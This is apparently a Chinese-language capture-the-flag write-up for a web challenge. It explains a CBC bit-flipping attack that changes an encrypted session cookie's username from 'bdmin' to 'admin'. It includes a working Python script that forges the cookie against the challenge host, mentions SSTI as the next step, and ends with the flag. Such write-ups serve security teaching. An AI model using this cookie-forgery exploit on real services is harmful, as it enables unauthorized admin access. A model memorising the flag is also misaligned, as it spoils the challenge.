


考察CBC字节反转攻击，先在/register注册一个`username='bdmin'，password='123'`



拿到cookie，也就是(CBC的密文)。

这个时候密文对应的明文是形如这样的，`b'{"name": "bdmin", "password_raw": "123", "register_time": 1745636950}\r\r\r\r\r\r\r\r\r\r\r\r\r'`，register_time会不一样。

这个时候更改IV，使得解密结果为`b'{"name": "admin", "password_raw": "123", "register_time": 1745636950}\r\r\r\r\r\r\r\r\r\r\r\r\r'`即可

```py
import base64
from Crypto.Util.number import *
import requests

url = "http://61.147.171.105:50017"
data = {"username": "bdmin", "password": "123"}
session = requests.session()
r = session.post(url + "/login", data=data)
token = base64.b64decode(session.cookies.get_dict()['jwbcookie'].strip())
iv = token[:16]
cipher = token[16:]
plaintext = b'{"name": "bdmin", "password_raw": "123", "register_time": 1745636950}\r\r\r\r\r\r\r\r\r\r\r\r\r'
# target = b'{"name": "admin", "password_raw": "123", "register_time": 1745636950}\r\r\r\r\r\r\r\r\r\r\r\r\r'
tmp = iv[10] ^ ord('b') ^ ord('a')
newIV = iv[:10] + long_to_bytes(tmp) + iv[11:]
newtoken = newIV + cipher
header = {"Cookie": b"jwbcookie=" + base64.b64encode(newtoken)}
r = session.get(url + "/home", headers=header, allow_redirects=False)
if r.status_code != 302:
    print(r.status_code)
    print(f"cookie: {base64.b64encode(newtoken)}")
```

伪造cookie得到admin权限。

然后SSTI拿flag就行



ACTF{n3vEr_imPlem3nT_SuCh_Iv_HIJacK4bl3_C00Kie}